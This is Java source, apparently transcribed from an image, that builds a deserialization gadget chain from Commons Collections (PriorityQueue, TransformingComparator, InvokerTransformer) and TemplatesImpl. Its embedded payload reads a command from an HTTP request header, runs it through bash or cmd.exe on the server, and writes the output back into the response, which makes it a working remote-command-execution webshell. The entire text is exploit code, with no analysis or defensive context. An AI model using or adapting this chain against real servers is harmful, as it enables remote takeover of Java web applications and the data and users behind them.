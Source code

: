 ```java
    public Queue<Object> getObject(String header) throws Exception {
        String js_code = "isWin = java.lang.System.getProperty(\"os.name\").toLowerCase().contains(\"win\");" +
						"currentThread = org.springframework.web.context.request.RequestContextHolder.currentRequestAttributes();" +
						"requestFacade = currentThread.getRequest();" +
						"requestField = org.apache.catalina.connector.RequestFacade.class.getDeclaredField(\"request\");" +
						"requestField.setAccessible(true);" +
						"request = requestField.get(requestFacade);" +
						"response = request.getResponse();" +
						"outputStream = response.getOutputStream();" +
						"command = request.getHeader(\"" + header + "\");" +
						"pb = new java.lang.ProcessBuilder();" +
						"if (isWin) {" +
						"   pb.command(\"cmd.exe\", \"/c\", command);" +
						"} else {" +
						"   pb.command(\"bash\", \"-c\", command);" +
						"}" +
						"pb.redirectErrorStream(true);" +
						"bufferedReader = new java.io.BufferedReader(new java.io.InputStreamReader(pb.start().getInputStream()));" +
						"result = \"\";" +
						"while ((line = bufferedReader.readLine()) != null) {" +
						"   result += line + \"\\n\";" +
						"}" +
						"outputStream.write(result.getBytes());" +
						"outputStream.close();";
//        String js_code = "calc.exe";
        final Object templates = createTemplatesImpl(js_code);
        final InvokerTransformer transformer = new InvokerTransformer("toString", new Class[0], new Object[0]);

        // create queue with numbers and basic comparator
        final PriorityQueue<Object> queue = new PriorityQueue<Object>(2,new TransformingComparator(transformer));
        // stub data for replacement later
        queue.add(1);
        queue.add(1);

        // switch method called by comparator
        Reflections.setFieldValue(transformer, "iMethodName", "newTransformer");

        // switch contents of queue
        final Object[] queueArray = (Object[]) Reflections.getFieldValue(queue, "queue");
        queueArray[0] = templates;
        queueArray[1] = 1;

        return queue;
    }

    public static Object createTemplatesImpl ( final String command ) throws Exception {
        if ( Boolean.parseBoolean(System.getProperty("properXalan", "false")) ) {
            return createTemplatesImpl(
                command,
                Class.forName("org.apache.xalan.xsltc.trax.TemplatesImpl"),
                Class.forName("org.apache.xalan.xsltc.runtime.AbstractTranslet"),
                Class.forName("org.apache.xalan.xsltc.trax.TransformerFactoryImpl"));
        }

        return createTemplatesImpl(command, TemplatesImpl.class, AbstractTranslet.class, TransformerFactoryImpl.class);
    }
```